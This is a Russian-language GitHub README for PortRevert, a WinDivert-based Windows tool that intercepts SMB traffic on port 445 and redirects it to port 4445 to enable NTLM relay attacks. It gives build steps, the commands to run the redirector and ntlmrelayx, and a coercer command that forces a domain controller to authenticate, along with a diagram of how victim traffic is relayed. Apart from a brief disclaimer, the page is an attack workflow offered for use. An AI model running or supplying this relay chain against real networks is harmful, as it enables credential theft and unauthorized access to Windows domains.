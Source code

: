 # PortRevert

SMB port redirector for NTLM relay attacks without stopping the LanmanServer service.

## 🎯 Описание

Этот инструмент перехватывает SMB трафик на порт 445 и перенаправляет его на порт 4445, позволяя использовать ntlmrelayx без остановки службы LanmanServer (которая слушает порт 445).

## 🚀 Возможности

- Перехват всего TCP трафика на порт 445
- Перенаправление на порт 4445 для ntlmrelayx
- Автоматическая обработка двунаправленного трафика (запросы/ответы)
- Корректная очистка драйвера при завершении
- Поддержка как x86, так и x64 архитектур

## 📋 Требования

- Windows 8/10/11
- Права администратора
- Visual Studio (для сборки)
- WinDivert 2.2+

## 🛠️ Сборка

1. Установите Visual Studio
2. Скачайте WinDivert 2.2+ с [официального сайта](https://reqrypt.org/windivert.html)
3. Откройте проект в Visual Studio
4. Настройте пути к библиотекам WinDivert
5. Соберите проект (Release x64)

## 🚀 Использование

### Запуск перенаправления:
```cmd
PortRevert.exe
```
### Выгрузка драйвера:
```cmd
PortRevert.exe uninstall
```
## 🎯 Пример использования для NTLM relay
### 1. Запустите PortRevert от имени администратора:
```cmd
PortRevert.exe
```
### 2.  Запустите ntlmrelayx на порту 4445:
```cmd
ntlmrelayx.exe -smb-port 4445 -smb2support -debug
```
### 3. Принудите жертву к аутентификации любым способом, например с помощью coercer:
```zsh
coercer coerce -d cs.org -t dc1 -u test -p 'Password123!' -l pc3 --always-continue

(PortRevert должен быть запущен на хосте-слушателе, в данном случае - pc3)
```
## 🔄 Как это работает
```
Жертва -> Порт 445 
    ↓ (перехват PortRedirector)
Жертва -> Порт 4445 -> ntlmrelayx
    ↓ (ответы)
ntlmrelayx -> Порт 4445 
    ↓ (перенаправление обратно)
ntlmrelayx -> Порт 445 -> Жертва
```

## ⚠️ Важные замечания
- Требуются права администратора
- Не останавливает службу LanmanServer
- Работает с внешним и локальным SMB трафиком
- Файлы WinDivert.sys и WinDivert.dll должны находиться рядом с exe
## 🧹 Очистка

После использования запустите:
```cmd
PortRevert.exe uninstall
```
Это остановит и удалит драйвер WinDivert из системы.
## 📄 Лицензия

Этот проект распространяется по лицензии MIT.
## 🙏 Благодарности

- [WinDivert](https://reqrypt.org/windivert.html) - за отличную библиотеку перехвата пакетов
- Сообществу пентеста за вдохновение
## 🔒 Дисклеймер

Этот инструмент предназначен только для образовательных целей и всех тех, кто работает в области пентеста и этичного хакинга. Используйте ответственно!
